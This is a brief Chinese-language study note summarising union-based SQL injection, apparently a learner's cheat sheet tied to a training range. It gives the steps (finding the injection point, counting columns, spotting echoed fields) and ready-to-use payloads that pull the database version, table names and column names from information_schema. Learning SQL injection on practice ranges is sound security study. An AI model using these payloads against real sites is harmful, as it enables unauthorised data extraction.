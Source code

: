 ### SQL注入总结

- 第一步, 检查注入点
- 第二步, group by 查看前端回显字段数量
- 第三步, `union select 1,2,3,4` 根据前端显示判定回显字段
- 第二步, 注意闭合
- 注入代码:
    - `union select version(),database()`
    - `union select group_concat(table_name) from information_schema.tables where table_schema=database()`
    - `union select group_concat(column_name) from information_schema.columns where table_name='table_name'`
- 根据列名查询数据, 注意limit




封神台SQL注入-HEADER注入
https://www.freesion.com/article/79131245351/

